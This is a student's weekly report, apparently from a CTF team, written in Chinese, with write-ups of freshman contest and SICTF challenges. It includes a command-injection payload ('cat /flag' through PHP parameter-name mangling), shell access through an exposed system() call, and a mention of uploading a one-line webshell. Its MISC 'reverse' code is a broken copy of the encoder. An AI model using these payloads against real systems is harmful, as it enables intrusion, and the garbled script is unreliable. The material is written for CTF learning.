






# 完成事项

新生赛

# 下周待做事项

继续学习

# 本周学习的知识分享

## 2024级新生赛

### WEB

#### childhood_game

先保存一个存档，在本地存储空间中找到游戏数据的存档，修改，把数值改大大大大，然后玩游戏。



通关游戏就有flag啦，虽然感觉这个操作不太聪明。



### PWN

#### 蟑螂学长

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int x; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init();
  puts(&byte_23F0);
  puts(&byte_2442);
  sleep(1u);
  puts(asc_22AA);
  puts(&byte_2458);
  puts(asc_2480);
  while ( 1 )
  {
    check();
    puts(&byte_24A8);
    puts(a1);
    __isoc99_scanf(&unk_251B, &x);
    switch ( x )
    {
      case 1:
        tuoxie();
        break;
      case 2:
        shachongji();
        break;
      case 3:
        paizi();
        break;
      case 4:
        taopao();
      case 5:
        kkwd();
      default:
        puts(&byte_2520);
        break;
    }
    shoushang();
  }
}
```

idapro打开，kkwd()函数中有system("binsh")，回到主程序看到当输入5时执行kkwd，所以可以得到flag。

#### netcat

idapro打开，shiftF12查看字符串。想找有没有binsh，啥？flag？？？唉，提交了才知道是fakeflag

回到主函数，仔细观察。

```
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  char s2[10]; // [rsp+Eh] [rbp-12h] BYREF
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  puts(&s);
  puts(asc_202A);
  __isoc99_scanf("%5s", s2);
  if ( strcmp("23451", s2) )
  {
    puts(&byte_2050);
    exit(1);
  }
  puts(&byte_2078);
  __isoc99_scanf("%10s", s2);
  system(s2);
  exit(0);
}
```

发现有一个system()函数，而且函数内容是前面用户输入的变量s2，那我干脆输一个/bin/sh，没想到直接就有权限了，cat flag！

### CRYPTO

#### fence

栅栏密码，key=9

#### signin

凯撒加密

### REVERSE

#### 原神启动

jadx打开，一个一个类打开看有没有关键方法，结果扫到了一个MP4文件。

用010editor打开，在结尾发现flag。

## SICTF

### WEB

#### Upl0ad

禁用js，上传一句话木马。

#### Sighin

F12提示robot和.txt，所以访问/robots.txt，发现 `Disallow: /wh3re_1s_thi5_fl4g.php`，访问 `/wh3re_1s_thi5_fl4g.php`

```
<?php
highlight_file(__FILE__);
error_reporting(0);
$s = "wKq=1MDcLg6yYsrnRYivbO7JoWQ9rBhCZuo4DlZOS7_I5+t=UKzp0hdV1FNL2EFd/nxam3cTbPARsw+8Eky5XUpfH0MeTQ3JXtkGf9qj_4NmlHi/SeIVaCAgxGj26vW8PBzu";
$a = $s[72] . $s[116] . $s[76] . $s[113] . $s[124] . $s[35] . $s[104] . $s[63] . $s[91] . $s[70] . $s[24] . $s[63] . $s[113];
$b = $s[38] . $s[123] . $s[115] . $s[89] . $s[96] . $s[60] . $s[75] . $s[108] . $s[32] . $s[107] . $s[37] . $s[131] . $s[38] . $s[25] . $s[75] . $s[100] . $s[63] . $s[68] . $s[57] . $s[11] . $s[70] . $s[77] . $s[3] . $s[3];
$c = $s[96] . $s[89] . $s[63] . $s[62] . $s[115] . $s[74] . $s[47] . $s[47];
$e = $payload = $s[115].$s[65].$s[86].$s[39].$s[70].$s[4].$s[108].$s[124].$s[26].$s[65].$s[16].$s[116].$s[115].$s[103].$s[98].$s[77].$s[92].$s[48].$s[12].$s[44].$s[115].$s[62].$s[58].$s[55].$s[92].$s[37].$s[55].$s[40].$s[116].$s[71].$s[16].$s[83].$s[92].$s[48].$s[75].$s[23].$s[5].$s[74].$s[47].$s[47];
$f = $a($b);
$g = $a($a($e));
$h = $s[17].$s[130].$s[106].$s[76].$s[113].$s[68].$s[75].$s[109].$s[55].$s[65].$s[26].$s[47];
$i = $a($a($h));
$i($f()[$a($c)][$g
```

将内容在本地php跑一遍，输出所有变量，并拼接出最后一句命令

```
<?php
highlight_file(__FILE__);
//error_reporting(0);
$s = "wKq=1MDcLg6yYsrnRYivbO7JoWQ9rBhCZuo4DlZOS7_I5+t=UKzp0hdV1FNL2EFd/nxam3cTbPARsw+8Eky5XUpfH0MeTQ3JXtkGf9qj_4NmlHi/SeIVaCAgxGj26vW8PBzu";
$a = $s[72] . $s[116] . $s[76] . $s[113] . $s[124] . $s[35] . $s[104] . $s[63] . $s[91] . $s[70] . $s[24] . $s[63] . $s[113];
$b = $s[38] . $s[123] . $s[115] . $s[89] . $s[96] . $s[60] . $s[75] . $s[108] . $s[32] . $s[107] . $s[37] . $s[131] . $s[38] . $s[25] . $s[75] . $s[100] . $s[63] . $s[68] . $s[57] . $s[11] . $s[70] . $s[77] . $s[3] . $s[3];
$c = $s[96] . $s[89] . $s[63] . $s[62] . $s[115] . $s[74] . $s[47] . $s[47];
$e = $payload = $s[115].$s[65].$s[86].$s[39].$s[70].$s[4].$s[108].$s[124].$s[26].$s[65].$s[16].$s[116].$s[115].$s[103].$s[98].$s[77].$s[92].$s[48].$s[12].$s[44].$s[115].$s[62].$s[58].$s[55].$s[92].$s[37].$s[55].$s[40].$s[116].$s[71].$s[16].$s[83].$s[92].$s[48].$s[75].$s[23].$s[5].$s[74].$s[47].$s[47];
$f = $a($b);
$g = $a($a($e));
$h = $s[17].$s[130].$s[106].$s[76].$s[113].$s[68].$s[75].$s[109].$s[55].$s[65].$s[26].$s[47];
$i = $a($a($h));
$i($f()[$a($c)][$g]);
//system(get_defined_vars()[base64_decode(X0dFVA==)][W3lc0me_t0_SICTF.2024]);
echo "<br>a = ".$a;
echo "<br>b = ".$b;
echo "<br>c = ".$c;
echo "<br>e = ".$e;
echo "<br>f = ".$f;
echo "<br>g = ".$g;
echo "<br>h = ".$h;
echo "<br>i = ".$i;
//system(get_defined_vars()_GET[W3lc0me_t0_SICTF.2024])

?>

Warning: Cannot call get_defined_vars() dynamically in D:\phpstudy_pro\WWW\index.php on line 13

Warning: system(): Cannot execute a blank command in D:\phpstudy_pro\WWW\index.php on line 13

a = base64_decode
b = Z2V0X2RlZmluZWRfdmFycw==
c = X0dFVA==
e = VnpOc1l6QnRaVjkwTUY5VFNVTlVSaTR5TURJMA==
f = get_defined_vars
g = W3lc0me_t0_SICTF.2024
h = YzNsemRHVnQ=
i = system
```

发现命令就是读取并用system函数执行get传入的W3lc0me_t0_SICTF.2024参数。如果只是按照正常的方式传参，是会报错的。此处有一个知识点。

当 `PHP版本小于8`时，如果参数中出现中括号 `[`，中括号会被转换成下划线 `_`，但是会出现转换错误导致接下来如果该参数名中还有 `非法字符`并不会继续转换成下划线 `_`，也就是说如果中括号 `[`出现在前面，那么中括号 `[`还是会被转换成下划线 `_`，但是因为出错导致接下来的非法字符并不会被转换成下划线 `_`。

所以payload：`/wh3re_1s_thi5_fl4g.php?W3lc0me_t0[SICTF.2024=cat /flag`，在t0之后用 `[`，会被转换为 `_`，使后面用 `.`的时候不会被转换为 `_`。getflag

### MISC

#### 派森

根据中文得

```
from operator import xor
from tqdm import trange
flag = ''
enc = []
for i in trange(0 ,len(flag),4):
    enc.append(xor(ord(flag[i]), ord(flag[i+2])))
    enc.append(xor(ord(flag[i+1]), ord(flag[i+3])))
    enc.append(xor(ord(flag[i+2])))
    enc.append(xor(ord(flag[i+3])))
print(enc)
#enc = [16, 29, 67, 84, 31, 75, 89, 48, 30, 111, 107, 48, 49, 52, 95, 67, 6, 2, 110, 51, 44, 69, 95, 118, 74, 45, 121, 95, 70, 84, 49, 49, 0, 0, 33, 33, 0, 10, 113, 125]


```

再逆向得

```
from operator import xor
from tqdm import trange
flag = ''
enc = []
for i in trange(0 ,len(flag),4):
    enc.append(xor(ord(flag[i]), ord(flag[i+2])))
    enc.append(xor(ord(flag[i+1]), ord(flag[i+3])))
    enc.append(xor(ord(flag[i+2])))
    enc.append(xor(ord(flag[i+3])))
print(enc)
#enc = [16, 29, 67, 84, 31, 75, 89, 48, 30, 111, 107, 48, 49, 52, 95, 67, 6, 2, 110, 51, 44, 69, 95, 118, 74, 45, 121, 95, 70, 84, 49, 49, 0, 0, 33, 33, 0, 10, 113, 125]

```

#### 模型的秘密

用压缩包里的字典暴力破解压缩包。得到model.blend。下载blender，打开model.blend，发现blend文件损坏。那该怎么办呢？我保存blender里的一个示例文件，用010editor打开，观察头部区别，发现文件model.blend头部缺失信息。



补全后用blender打开即可。flag：`SICTF{fLAG1nTheM8deL}`

#### Picture

反向恢复图片。

```
from PIL import Image

# 打开分离的图像
image1 = Image.open('flag1.png')
image2 = Image.open('flag2.png')

width, height = image1.size

# 创建恢复后的图像
restored_image = Image.new(mode="RGB", size=image1.size, color="white")

# 遍历每个像素并重建原始图像
for i in range(width):
    for j in range(height):
        tr, tg, tb = image1.getpixel((i, j))
        rt, gt, bt = image2.getpixel((i, j))
        r = tr + rt
        g = tg + gt
        b = tb + bt
        restored_image.putpixel((i, j), (r, g, b))

# 保存恢复后的图像
restored_image.save('restored_flag.png')
```

图片StegSolve LSB得

### CRYPTO

#### SignBase

直接base64解密

# 本周学习总结

当 `PHP版本小于8`时，如果参数中出现中括号 `[`，中括号会被转换成下划线 `_`，但是会出现转换错误导致接下来如果该参数名中还有 `非法字符`并不会继续转换成下划线 `_`，也就是说如果中括号 `[`出现在前面，那么中括号 `[`还是会被转换成下划线 `_`，但是因为出错导致接下来的非法字符并不会被转换成下划线 `_`。
